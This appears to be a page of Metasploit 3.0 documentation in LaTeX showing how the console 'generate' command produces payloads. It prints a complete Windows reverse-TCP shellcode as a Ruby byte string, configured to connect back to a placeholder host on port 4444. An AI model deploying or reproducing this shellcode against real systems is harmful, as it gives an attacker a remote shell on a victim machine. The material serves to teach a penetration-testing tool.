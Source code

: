 \documentclass{report}
\begin{document}
\par
The console interface supports generating different forms of a payload. This is
a new feature in Metasploit 3.0. To generate payloads, first select a payload
through the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >
\end{verbatim}

\par
Using the options supported by the \texttt{generate} command, different formats
of a payload can be generated. Some payloads will require options which can be
specified through the \texttt{-o} parameter. Additionally, a format to convey
the generated payload can be specified through the \texttt{-t} parameter. To
save the resulting data to a local file, pass the \texttt{-f} parameter followed
by the output file name.

\begin{verbatim}
msf payload(shell_reverse_tcp) > set LHOST 1.2.3.4
LHOST => 1.2.3.4
msf payload(shell_reverse_tcp) > generate -t ruby
# windows/shell_reverse_tcp - 287 bytes
# http://www.metasploit.com
# EXITFUNC=seh, LPORT=4444, LHOST=1.2.3.4
"\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24" +
"\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f" +
"\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84" +
"\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x28" +
"\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c" +
"\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61\xc3\x31\xdb\x64" +
"\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\x5e" +
"\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" +
"\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50" +
"\xff\xd6\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff" +
"\xd0\x68\xd9\x09\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43" +
"\x53\x43\x53\xff\xd0\x68\x01\x02\x03\x04\x66\x68\x11\x5c" +
"\x66\x53\x89\xe1\x95\x68\xec\xf9\xaa\x60\x57\xff\xd6\x6a" +
"\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68\x63\x6d\x6a\x50" +
"\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3\xaa\x95" +
"\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" +
"\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51" +
"\x51\x51\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05" +
"\xce\x53\xff\xd6\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6" +
"\x79\xff\x75\x04\xff\xd6\xff\x77\xfc\xff\xd0\x68\xf0\x8a" +
"\x04\x5f\x53\xff\xd6\xff\xd0"
msf payload(shell_reverse_tcp) >
\end{verbatim}
\end{document}
